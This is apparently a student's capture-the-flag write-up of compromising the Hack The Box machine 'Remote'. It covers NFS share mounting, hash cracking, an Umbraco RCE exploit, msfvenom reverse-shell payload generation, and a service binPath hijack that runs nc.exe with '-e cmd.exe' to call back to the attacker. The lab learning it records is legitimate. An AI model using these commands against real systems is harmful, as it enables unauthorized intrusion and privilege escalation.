# Week 9 - HTB - Remote



Sasha Thomas

May 27th 2020

## Introduction and Materials

This week, I decided to step away from SmashTheStack temporarily and try my hand at another HTB machine.

This box was especially difficult, not only because I had no experience with Windows, but also because it is an active machine, meaning there are no write ups or references available. I didn't need to refer to any write ups for the last box (OpenAdmin), but I at least had the ease of mind that they were available. For this, I was on my own. 

To complete this, I used the MetaSploit Framework, MSFVenom, Python, `netcat`, Nmap, and `mount` (maybe some other tools I'm forgetting)

## Steps to Reproduce

1. As per usual, I used `nmap` to scan `10.10.10.180` with flags set to probe service/version info. A handful of ports were open:

   

   Not being experienced with Windows, nothing stood out to me, so out of curiosity I hit the IP in my web browser:

   

   I gave OWASP DirBuster a spin, because it led me down the right path with OpenAdmin, but the results were as impressive for this machine. Looking back at my Nmap scan, I started to google the services and ports I didn't recognize (which was pretty much each one). It was until I googled `mountd`, the service running on port 2049, that led me to something interesting. 

2. Some research led me to NFS or Network File System, which allows remote hosts to mount systems/directories over a network. If I could mount a directory from this machine to mine, then this might give me some good information. Running the command `showmount` told me that everyone could mount the directory `/site_backups`:

   

   Using the `mount` command, I successfully copied `/site_backups` to Kali, and began enumerating! 

   

   Learning from previous boxes, my goal was to look for any file related to configuration, settings, data, defaults, logs, etc. Eventually, within `/App_Data`, when I printed the contents of `umbraco.sdf`, I found some strings but mostly a sea of unrecognized characters. Having encountered similar situations, I know that the `strings` command is infinitely useful. Using `strings` gave me an interesting log of events, which looked like it included a password hashed using SHA1:

   

   Using a SHA1 decryptor, I was able to find a password: "baconandcheese"

3. Since these were credentials for Umbraco, I went to http://10.10.10.180/umbraco and successfully logged into the administrator account!

   

   This was great, but my goal remained to get into the machine. Having admin access to the site presumably meant that this was my way in, so more research led me to an exploit for this version of Umbraco CMS (https://github.com/noraj/Umbraco-RCE). This exploit, with admin credentials, allows for remote code injection into the box. After some tweaks to my syntax, I was successfully able to send commands to the machine! 

   

4. This is unfortunately where the pain began. Before this, I was getting by with google searches and a lot of enumeration. From this point on, I ran into a problem at every step of the way. Compounded with trying to get $%&#*@ powershell to do what I wanted it to, I was stuck at this point for the rest of the day. Technically, I owned user, in the sense that I was on the computer and got the user flag. But I didn't really "own" user, I was just injecting code. So I began trying to get a low-privileged shell, because I didn't see a way to escalate what I had to root without an actual shell.

5. I will spare the details of my frustration and speak to the core of my confusion. Because this is a Windows machine, many of the tools and strategies I've heard about or could google quickly didn't apply (as they were mostly Linux based). I felt stuck, because many of the strategies specifically for Windows required a shell or meterpreter. I wasn't using meterpreter, and didn't know how to use what I had to get a shell. Other resources I found suggested using `nc`, the Windows version of `netcat`, but this is obviously not installed on Windows machines by default. So, what if I put it on there? 

6. This was an idea that led me down a rabbithole. Although my RCI was very low-privileged, I could still by default upload to `/Users/Public`, where the user flag was held. I just needed to spin up a quick web-server to host the files, something I've never done before. I was ecstatic to find a super basic Python command, `SimpleHTTPServer`, which takes a port and creates a file sharing server from the directory you are in. I quickly had a rudimentary file sharing server which could host all the malicious files I wanted!

   

   (By the time I rooted the box, these were all the things I tried using)

7. Getting the files on the machine using powershell was an endeavor of its own. Technically the "p" and "s" in powershell should be capitalized, but it doesn't deserve the authority. Trying to figure this out took a painstaking half an hour of trying different commands with slightly different syntax. I will never take unix for granted again. Eventually, the command `Invoke-WebRequest` successfully did the job of transferring a file from my machine to `10.10.10.180`. In the end, the syntax isn't too scary, but errors with spaces, backslashes, apostrophes, and quotes, as well as the exploit assuming the powershell flags were incorrect python flags, made the process very tedious. The entire command looked like the following:

   ```bash
   python3 umbraco_exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 'Invoke-WebRequest -Uri 'http://KaliIP:8080/file' -OutFile 'C:\Users\Public\Documents\file'
   ```

8. My newfound ability to transfer files led me to more frustration with `netcat` for Windows after I uploaded the exe. After an hour of frustration with permissions, exe's and powershell in general, I took a step back and researched more ways to accomplish what I wanted to. My goal was to upload something that could give me a shell, eject code to run it, and connect back to that on my Kali box. And the Metasploit Framework and MSFVenom actually allow you to do just that. MSFVenom lets you create malicious exe's that will run an exploit, and from my research, it seemed that through MSF, I could create a handler that listened for this and connect back to it, sort of like using MSF but manually performing each step. I created a malicious exe using the following command:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp lhost=KaliIP lport=4444 -f exe > payload.exe
   ```

   I copied this over to `/Public` and ran it. Then, on my Kali machine, I ran MSF and used `exploit/multi/handler` with the right port and IP, and to my surprise, this actually worked and got me a meterpreter session!

   

9. As cool as this was, it was only half the battle; I still needed to escalate my privileges somehow. I came back to the box the next day ready for lots of enumeration. It was unfortunately my enumeration which led me down a rabbithole which, while I think is possible, was beyond my capacity to figure out. While doing standard checks of the services running on the computer, I found that TeamViewer7 was running. There was nothing else that stood out to me, so I followed this path and started looking at the files and doing research. I found an exploit for old versions of TeamViewer which revealed passwords for the active TeamViewer session. Running this in metasploit gave me a clear hint!

   

   Siiiick!!! I just needed an ID for the TeamViewer session. More googling led me to the `reg query` command on Windows, which allowed me to query the registry holding ClientID:

   

   Converting the hex to decimal, I got 1769137322, a valid TeamViewerID. 

10. But no dice. I double-checked my number in TeamViewer, the password, ID, but nothing worked. I made sure the TeamViewer exe's were running using the `net start` command, but I got nowhere. Considering the name of the box and the ability to get the password and ID, I believe this is somehow a valid solution, but after a few hours of hitting my head against the wall, I looked for other options. 

11. Feeling as if I was starting over, I found some Windows enumeration and privilege escalation scripts, and transferred them to the box. After another half an hour of trying to download these as modules (in order to use the built-in commands), I finally found a loop around (as I didn't have privileges to install powershell modules):

    ```powershell
    powershell -exec bypass -Command "& {Import-Module ./PowerUp.ps1}"
    ```

    Using this allowed me to run the commands from the .ps1 file for that line only. I used the built-in `Invoke-AllChecks` command. The result was interesting; there was a service running as root which I had permission to not only restart, but change some of it's values, including, but not limited to, it's binary path name.

12. This time, I decided to use the `nc.exe` I originally attempted to use, because this time, I could set it to run with parameters. After uploading `nc.exe`, I used `sc config` on the vulnerable service (`UsoSvc`) to set `binPath` to `C:/Users/Public/Documents/nc.exe KalisIP 4444 -e cmd.exe`. 

    

13. For this change to take, I stopped the service, opened a `netcat` listener on my Kali box, and started the service again. And I was finally root!!!

    


## Discussion

First of all, my inexperience with Windows, cmd, and powershell definitely added lots of stress to this already difficult box. Nothing was super mind blowing, it just took me a long time to enumerate and set everything up perfectly, especially since I haven't used netcat or metasploit to drop a shell like that before. I have done something similar using remote code injection with PHP, but this felt like a whole new beast. 

As far as security principles violated, there were serious issues, starting with allowing everyone to copy that initial backup folder (not to mention using an outdated hash algorithm). But, in general, these vulnerabilities seem "realistic" in the sense that they could happen due to a lazy IT department. 

## Conclusion

I'm still upset I couldn't get the TeamViewer exploit to work. I have no idea why it fails to connect to the ID. I will look into it in my own time and see if I can get it to work. Considering the name of the box, and the password I found, it must be intentional, and likely the intended way. I'm not sure if my method was intentional, but it works! 

